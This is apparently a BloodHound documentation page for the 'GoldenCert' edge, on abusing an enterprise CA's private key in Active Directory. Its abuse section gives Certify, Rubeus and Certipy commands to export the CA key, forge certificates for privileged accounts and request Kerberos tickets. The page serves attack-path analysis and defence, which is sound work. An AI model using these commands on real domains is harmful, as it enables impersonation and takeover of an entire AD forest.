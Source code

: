 ```yaml
---
title: GoldenCert
description: The victim principal has a certificate private key that can be abused to sign "golden" certificates for authentication of any enabled principal in the AD forest of the domain.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

The victim principal hosts the enrollment service of an enterprise CA, which implies it has the private key of the enterprise CA's certificate. This private key allows an attacker to sign certificates for authentication as any enabled principal in the AD forest of the domain, as the enterprise CA is trusted for NT authentication and chain up to a root CA.

It may not be possible to obtain the certificate private key if it is protected with a Trusted Platform Module (TPM) or using a Hardware Security Module (HSM). However, it may still be possible to compromise the AD forest. Administrative access to the enterprise CA host lets an attacker publish certificate templates, approve denied enrollment requests, and more. The victim principal will have an ESC7 edge to the domain if any such attack has been found possible by BloodHound.

## Abuse Info

### Windows

#### Step 1

Obtain CA certificate incl. private key

Use Certify (2.0) to export all certificates in the local machine certificate store and identify the CA certificate by the name of the CA:

```cmd
Certify.exe manage-self --dump-certs
```

#### Step 2

Forge certificate and obtain a TGT as targeted principal.

Forge a certificate of a target principal:
```cmd
Certify.exe forge --ca-cert <pfx-path/base64-pfx> --upn Administrator --sid S-1-5-21-976219687-1556195986-4104514715-500
```

Request a TGT for the targeted principal using the certificate with Rubeus:
```cmd
Rubeus.exe asktgt /user:Administrator /domain:dumpster.fire /certificate:<pfx-path/base64-pfx>
```
### Linux

#### Step 1

Back up the CA certificate with the credentials of a user with admin access on the enterprise CA host using Certipy, and identify the CA certificate by the name of the CA.
```bash
certipy ca -backup -ca 'dumpster-DC01-CA' -username jd@dumpster.fire -password 'Password123!'
```
#### Step 2

Forge a certificate of a target principal:
```bash
certipy forge -ca-pfx dumpster-DC01-CA.pfx -upn Roshi@dumpster.fire -subject 'CN=Roshi,OU=Users,OU=Tier0,DC=dumpster,DC=fire'
```
#### Step 3

Request a TGT for the targeted principal using the certificate against a given DC:
```bash
 certipy auth -pfx roshi_forged.pfx -dc-ip '192.168.100.10'
```
## Opsec Considerations

When an attacker abuses a privilege escalation or impersonation primitive that relies on this relationship, it will necessarily result in the issuance of a certificate. A copy of the issued certificate will be saved on the host that issued the certificate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://github.com/GhostPack/Certify/wiki/3-%E2%80%90-Domain-Persistence-Techniques#dpersist1---forging-certificates-with-stolen-ca-certificates](https://github.com/GhostPack/Certify/wiki/3-%E2%80%90-Domain-Persistence-Techniques#dpersist1---forging-certificates-with-stolen-ca-certificates)
* [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

